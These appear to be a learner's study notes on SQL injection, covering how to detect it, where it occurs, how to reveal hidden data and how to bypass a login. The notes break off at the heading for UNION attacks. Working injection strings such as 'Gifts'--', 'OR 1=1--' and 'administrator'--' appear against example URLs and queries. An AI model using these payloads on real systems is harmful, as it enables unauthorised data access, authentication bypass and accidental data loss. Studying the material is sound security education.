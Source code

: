 >[!info] SQL injection
>- Web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database.
>- [Cheat-Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
----
>[!tip] Spot SQL injection vulnerabilities
>- Submit the single quote character `'`. 
>- Boolean conditions such as `OR 1=1` and `OR 1=2`.
>- Trigger time delays when executed within a SQL query.
>- OAST payloads designed to trigger an out-of-band network interaction.
>
>>[!tip] Common locations where SQLi arises
>>- In `UPDATE` statements, within the updated values or the `WHERE` clause.
>>- In `INSERT` statements, within the inserted values.
>>- In `SELECT` statements, within the table or column name.
>>- In `SELECT` statements, within the `ORDER BY` clause.
---
>[!danger] Retrieving hidden data
>- Imagine this URL:
>```
>https://insecure-website.com/products?category=Gifts
>```
>- This causes the application to make this SQL query:
>```sql
>SELECT * FROM products WHERE category = 'Gifts' AND released = 1
>```
>- The restriction `released = 1` is being used to hide products that are not released.
>- We could assume for unreleased products, `released = 0`.
>- In this case we could submit the single quote character `'` to open the query and then add the comment indicator `--` to drop the rest of the query, like this:
>```
>https://insecure-website.com/products?category=Gifts'--
>```
>- The query will look like this:
>```sql
>SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
>```
>- You can use a similar attack to cause the application to display all the products in any category, including categories that they don't know about:
>```
>https://insecure-website.com/products?category=Gifts'+OR+1=1--
>```
>- The query will looks like this:
>```sql
>SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
>```
>
>>[!warning]
>>- Take care when injecting the condition `OR 1=1` into a SQL query.
>>- If your condition reaches an `UPDATE` or `DELETE` statement it can result in an accidental loss of data.
---
>[!danger] Subverting application logic
>- Imagine an application that checks the credentials by performing the following SQL query:
>```sql
>SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
>```
>- In this case, an attacker can log in as any user without the need for a password:
>```sql
>SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
>```
---
>[!danger] SQL injection UNION attacks